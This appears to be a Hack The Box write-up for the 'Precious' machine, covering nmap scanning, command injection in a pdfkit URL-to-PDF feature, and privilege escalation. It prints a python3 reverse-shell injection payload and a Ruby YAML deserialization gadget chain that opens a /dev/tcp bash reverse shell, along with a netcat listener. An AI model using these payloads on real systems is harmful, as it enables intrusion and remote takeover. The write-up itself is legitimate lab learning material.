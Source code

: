 ```yaml
---
title: Hack The Box - Precious
tags: [HTB, Webapp Exploit, nmap, Python]
layout: post
---
```


Some Description

## Summary
- Information Gathering
    - Nmap Scanning
- Exploit CVE for Vulnerable Version
- Privilege Escalation

---

## Information Gathering Stage
### Nmap Scanning 
`sudo nmap -sV 10.10.11.189 -p-`

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---
## Exploiting Stage
Web redirect to precious.htb → add record to hosts
`echo "10.10.11.189 precious.htb" | sudo tee -a /etc/hosts`
Checking around the machine, we are gather a lot of information useful like: nginx 1.18.0, port 80,22, Function Convert remote file to PDF, ...
Let's check version it! :) We have a traffic to getshell low privilege escalation

*** Check pdf version ***
```sh
#exiftool file_name.pdf 
ExifTool Version Number         : 12.57
File Name                       : file_name.pdf
File Size                       : 23 kB
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
...
Creator                         : Generated by pdfkit v?.?.?
```

Just do google search to getshell.

```bash
http://10.10.14.8/?name='%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`'
```

Get shell → swap user `ruby` to `henry` (credential at .bundle in /homw/Henry folder)

User.txt: `********************************`

## Privilege Escalation

---

Transfer File linpeas.sh

```bash
python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.11.189 - - [19/Apr/2023 22:49:13] "GET /linpeas.sh HTTP/1.1" 200 -
```

SUID

```bash
-rwxr-sr-x 1 root ssh 347K Jul  1  2022 /usr/bin/ssh-agent                                                                                                                                                                                  
-rwxr-sr-x 1 root crontab 43K Feb 22  2021 /usr/bin/crontab
-rwxr-sr-x 1 root shadow 31K Feb  7  2020 /usr/bin/expiry
-rwsr-sr-x 1 root root 1.2M Mar 27  2022 /usr/bin/bash
```

`Sudo -l`

```bash
bash-5.1$ sudo -l

Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby **/opt/update_dependencies.rb**
```

Cat  **`/opt/update_dependencies.rb`**

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.8/9999 0>&1'"
         method_id: :resolve
```

It execute command at line in the end of file (git_set) → change value into Reverse shell (bash).

### Listen and run file

```bash
nc -nlvp 9999
```

```bash
sudo ruby /opt/update_dependencies.rb
```

Root.txt: `********************************`